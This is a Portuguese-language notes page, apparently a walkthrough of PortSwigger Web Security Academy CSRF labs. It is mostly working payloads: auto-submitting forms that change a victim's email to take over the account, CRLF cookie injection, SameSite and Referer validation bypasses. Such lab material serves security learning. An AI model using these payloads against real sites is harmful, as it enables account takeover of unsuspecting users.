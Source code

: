 # CSRF - Cross Site Request Forgery

O CSRF vai focar em alterar dados da vítima, principalmente seu e-mail. Trocando o e-mail dela, você consegue solicitar um reset de senha e obter acesso a conta.

Um payload de CSRF simples, sem defesa alguma:
```html
<html>
    <body>
        <form action="https://0a430077030c55ff869f58fa00960085.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>

## Laboratórios

**CSRF Where Token Validation Depends on Request Method**

Mude o método da requisição de POST para GET.
```
<img src="https://0ac700da0343bbb482108f6f00a40001.web-security-academy.net/my-account/change-email?email=attacker@evil.net">
```

<br>
<br>

**CSRF Where Token Validation Depends on Token Being Present**

Remova o token CSRF da requisição.
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

<br>
<br>

**CSRF Where Token is Not Tied to User Session**

Pegue o CSRF do seu usuário no código-fonte e utilize no payload.
```html
<html>
    <body>
        <form action="https://0a34005103588da98211cbbd004e0017.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="YsoehtJWJkSAyLb1Ubrqv4weLsDoQCMm" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>
<br>

**CSRF Where Token is Tied to Non-Session Cookie**

Ao enviar uma request de troca de e-mail, observe que existem dois tokens CSRF, um como cookie e outro no corpo da requisição.

Nesse caso, o valor que está sendo verificado é o do cookie, assim, precisamos setar um CSRF válido para a vítima atráves disso.

Ao utilizar a função de buscar, observamos o seguinte cookie na resposta:
```
Set-Cookie: LastSearchTerm=test;
```

Podemos abusar disso para setar um novo cookie para a vítima com esse payload:
```
/?search=test
Set-Cookie: csrfKey=YOUR-KEY; SameSite=None

# Encodado em URL:
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

Agora podemos criar o payload do CSRF que adiciona esse cookie e manda a request de troca de e-mail.
```html
<html>
  <body>
    <form action="https://0aba006804d08c8e822188870010007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@gmail.com" />
      <input type="hidden" name="csrf" value="TAIGnjd3gMpisovtC7xeVt6zHAGVn1NE" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aba006804d08c8e822188870010007d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=fnWnRvXgurFNEVnHXx1o1GlAMpzYF5WT%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>
<br>

**CSRF Where Token is Duplicated in Cookie**

O caso é semelhante ao lab de cima, mas os tokens precisam ser iguais (não necessariamente válidos), tanto no cookie, tanto no corpo da requisição.

Podemos criar o payload do CSRF que adiciona esse cookie e mandar a request de troca de e-mail, visto que o valor do token não está associado a sessão do usuário e sim apenas verificando se ambos os valores são iguais.
```html
<html>
  <body>
    <form action="https://0aba006804d08c8e822188870010007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hijacked@gmail.com" />
      <input type="hidden" name="csrf" value="anyValue" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aba006804d08c8e822188870010007d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anyValue%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>
<br>

**SameSite Lax Bypass via Method Override**

Altere o método da request para GET e adicione o parâmetro `_method=POST`:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```

Exploit:
```
<script>
document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

<br>
<br>

**SameSite Strict Bypass via Client-Side Redirect**
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```

Exploit:
```
script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

<br>
<br>

**SameSite Lax Bypass via Cookie Refresh**

Utilize um exploit de CSRF normal, envie a vítima, aguarde de 5 a 10 segundos e envie novamente.

<br>
<br>

**CSRF Where Referer Validation Depends on Header Being Present**

Adicione `<meta name="referrer" content="never">` no exploit.
```html
<html>
<meta name="referrer" content="never">
    <body>
        <form action="https://0a9500a2031b3160836619a400ab009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>
<br>

**CSRF with Broken Referer Validation**

Identifique que a função de e-mail é vulnerável a CSRF, porém, ao mudar o Referer a resposta é "Invalid referer header".

A requisição só é aceita quando o valor do referer contém o domínio esperado em algum lugar.

Neste caso, precisamos adicionar o seguinte header no servidor de exploit:
```
Referrer-Policy: unsafe-url
```

E no exploit, adicionar o domínio como terceiro argumento na função `history.pushState`:
```html
<html>
    <body>
        <form action="https://0aa000a4047c6a358042e98a00f300cc.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            history.pushState("", "", "/?0aa000a4047c6a358042e98a00f300cc.web-security-academy.net")
            document.forms[0].submit();
        </script>
    </body>
</html>
```
